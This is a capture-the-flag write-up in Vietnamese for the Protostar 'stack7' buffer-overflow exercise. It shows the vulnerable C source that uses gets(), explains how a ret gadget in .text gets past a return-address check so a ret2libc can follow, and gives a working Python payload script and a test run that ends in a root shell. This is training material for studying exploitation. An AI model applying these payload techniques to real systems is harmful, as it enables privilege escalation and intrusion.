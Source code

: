 # **stack7**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

- Phân tích: Khác với stack6, ở đây return address chỉ cần > 0xb0000000 là bị exit(), trong khi đó libc được load vào chương trình ở địa chỉ 0xb7.... => không thể ret2libc

## Vulnerability
gets()

## Exploit
- Stack 7 có gợi ý sử dụng ret2text.
- .text không có địa chỉ dạng 0xb.........
- Nếu vẫn làm như stack6:

  <img src="pictures/same_as_6.png">

- Nếu ghi đè vào return address một địa chỉ ở vùng .text thì ok:

  <img src="pictures/ghide_text.png">

- Ta tìm một instruction ở text mà có thể tương tác với $eip. => câu lệnh "ret".

  <img src="pictures/ghide_ret.png">

- Nếu ta ghi đè return address bằng địa chỉ một câu lệnh ret ở .text:
  - bypass được câu lệnh kiểm tra được return address ``` if((ret & 0xb0000000) == 0xb0000000) ```.
  - Chương trình sẽ tiếp tục thực thi câu lệnh ret mà ở đây ta không bị rằng buộc bởi địa chỉ mà ta muốn nhảy đến nữa.

=> Chỉ cần đẩy lui payload ở stack6 xuống 0x4 bytes, chèn vào giữa một địa chỉ câu lệnh ret, mọi thứ sẽ hoạt động bình thường:

  <img src="pictures/complete.png">

- Python script:
``` 
import struct

padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)             
exit_address = struct.pack("I", 0xb7ec60c0)
argument = struct.pack("I", 0xb7e97000 + 0x11f3bf)
ret_instruct_address = struct.pack("I", 0x08048544)

print(padding + ret_instruct_address + eip + exit_address + argument)
```
- Test:
```
user@protostar:/opt/protostar/bin$ (python /tmp/script7.py ; cat) | ./stack7
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`췿c
whoami
root
```
# References